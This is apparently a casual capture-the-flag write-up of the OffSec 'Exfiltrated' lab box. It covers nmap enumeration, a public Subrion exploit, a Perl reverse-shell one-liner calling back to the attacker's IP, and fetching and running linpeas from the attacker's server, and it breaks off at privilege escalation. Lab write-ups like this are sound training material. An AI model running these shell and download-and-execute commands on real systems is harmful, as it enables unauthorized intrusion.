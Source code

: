 ```yaml
---
aliases:
  - Exfiltrated
tags:
  - pg-playground
  - linux
  - enumeration
  - exploitation
os: Linux
difficulty: Easy
date: 2025-04-11
status: owned
---
```


## Box Summary

| Field              | Value                |
| ------------------ | -------------------- |
| **Name**           | Exfiltrated          |
| **IP**             | `192.168.198.163`    |
| **OS**             | Linux                |
| **Difficulty**     | Easy                 |
| **Date Completed** | 11 Apr 2025          |
| **Exploited Via**  | RCE or PrivEsc Chain |
| **Flags Captured** | ✅ Root, ✅ User       |

---

### 2. Enumeration

Quick Nmap Scan just to see what's going on as usual:

```
nmap -sCV -p- -T4 192.168.198.163
```

Output:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sCV -p- -T4 192.168.198.163
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-10 22:45 EDT
Nmap scan report for 192.168.198.163
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.57 seconds
```

From here we can see port 80 and port 22 is open, and just searching for the ip in my browser doesnt give me a anything, so we gonna try the links 1 by 1.

![[Exfiltrated-1744341273064.jpeg]]


After much trial and error and hardwork (I'm kidding it wasn't hard at all), we find ourself some weird login page, so whats the next step to do ? try out some useless username and password like admin:admin, but nah, no way this is gonna be this easy. Imma just google for exploits:

![[Exfiltrated-1744341434736.jpeg]]

Like all script kiddies do I'm just gonna use my trusty [exploitDB](https://www.exploit-db.com/exploits/49876) and copy and paste the python code. 

🔹 Create & Activate Virtual Environment
```
python3 -m venv afu-venv
source afu-venv/bin/activate
```

🔹 Install Dependencies
```
pip install requests bs4
```

So we run the exploit:

![[Exfiltrated-1744342000765.jpeg]]

and we just happen to get in: cool beans, so ngl, I just found out that theres this thing called revshells.com after looking at an online guide because idk how to continue, but DAMN:

![[Exfiltrated-1744342348811.jpeg]]


```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.233:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

ngl, this feels abit underwhelming:

![[Exfiltrated-1744342402815.jpeg]]

but alls good, we have a listener on 4444 on the other end so we gonna upgrade the shell (ngl this guy is pretty genius)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'; export TERM=xterm-256color
```

Okay time to document how this whole linpeas shit works:

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

Host http server:

```
python3 -m http.server 8000
```

On the shell you opened:

```
wget http://192.168.45.233:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

Output:

```
www-data@exfiltrated:/var/www/html/subrion/uploads$ wget http://192.168.45.233:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
<//192.168.45.233:8000/linpeas.sh -O /tmp/linpeas.sh
--2025-04-11 03:47:49--  http://192.168.45.233:8000/linpeas.sh
Connecting to 192.168.45.233:8000... chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
connected.
HTTP request sent, awaiting response... 200 OK
Length: 840085 (820K) [text/x-sh]
Saving to: ‘/tmp/linpeas.sh’

/tmp/linpeas.sh     100%[===================>] 820.40K  3.54MB/s    in 0.2s    

2025-04-11 03:47:49 (3.54 MB/s) - ‘/tmp/linpeas.sh’ saved [840085/840085]

www-data@exfiltrated:/var/www/html/subrion/uploads$ chmod +x /tmp/linpeas.sh
www-data@exfiltrated:/var/www/html/subrion/uploads$ /tmp/linpeas.sh
```

